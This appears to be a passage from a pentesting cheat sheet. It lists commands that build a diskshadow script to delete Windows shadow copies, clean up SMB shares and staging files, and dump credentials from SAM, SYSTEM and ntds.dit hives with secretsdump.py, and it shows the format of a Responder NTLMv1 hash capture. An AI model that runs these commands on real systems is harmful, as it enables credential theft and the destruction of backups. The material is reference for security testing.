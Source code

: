 Delete shadow volume:

```
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

```
// delete_vol.txt
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```

Clean up:

```
cmd /c net share pentest /delete
rm -re -fo C:\smb_pentest
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```

Parse secrets:

```
$ secretsdump.py -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL
```





# NTLM

* [en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)
* [blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/)




## Responder Capture Structure

`[SMB] NTLMv1 Hash` and `[SMB] NTLMv1-SSP Hash` capture structure:

```
<Username>:<Domain>:<LMv1_Response>:<NTv1_Response>:<Server_Challenge>
```
